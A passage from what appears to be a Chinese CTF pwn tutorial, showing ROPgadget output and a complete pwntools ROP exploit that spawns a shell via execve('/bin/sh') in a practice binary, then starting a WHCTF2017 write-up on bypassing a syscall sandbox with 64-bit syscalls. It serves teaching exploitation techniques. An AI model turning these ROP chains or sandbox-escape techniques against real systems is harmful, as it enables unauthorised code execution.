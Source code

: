         找int 0x80和/bin/sh

        ```
        ROPgadget --binary rop  --string '/bin/sh' 
        Strings information
        ============================================================
        0x080be408 : /bin/sh
        ROPgadget --binary rop  --only 'int'
        Gadgets information
        ============================================================
        0x08049421 : int 0x80
        0x080938fe : int 0xbb
        0x080869b5 : int 0xf6
        0x0807b4d4 : int 0xfc
        
        Unique gadgets found: 4
        
        ```
    
        考虑一下栈的布局
    
        ![14](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/14.png)
    
        gets执行后，ret到pop_eax_ret执行，把0xb（execve 对应的系统调用号）弹给eax，然后ret到pop_edx_ecx_ebx_ret执行，把0弹给edx，再把0弹给ecx，然后把 /bin/sh 弹给ebx，ret到int 0x80，成功执行`execve("/bin/sh", 0, 0)`
    
        ```python
        from pwn import *
        p = process('./rop')
        padding = 'a' * 0x6c + 'a' * 0x4
        pop_eax_ret = 0x080bb196
        pop_edx_ecx_ebx_ret = 0x0806eb90
        int_0x80 = 0x08049421
        binsh = 0x80be408
        payload = padding + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh) + p32(int_0x80)
        p.sendline(payload)
        p.interactive()
        ```
    
      - ###### WHCTF2017-sandbox 
    
        沙箱通过过滤系统调用号限制某些函数的使用，而且沙箱会不断的kill新进程
    
        32位和64位系统调用号不同，而且32位进程可以通过修改CS寄存器使用64位系统调用
    
        可以通过64位系统调用绕过沙箱，读取flag
    
        ```
        读取需要用到的系统调用
        #define __NR_open               2
        __SYSCALL(__NR_open, sys_open)
        打开flag文件
        #define __NR_read               0
        __SYSCALL(__NR_read, sys_read)
        读取flag
        #define __NR_write              1
        __SYSCALL(__NR_write, sys_write)
        将内容写到终端
        #define __NR_exit               60
        __SYSCALL(__NR_exit, sys_exit)
        
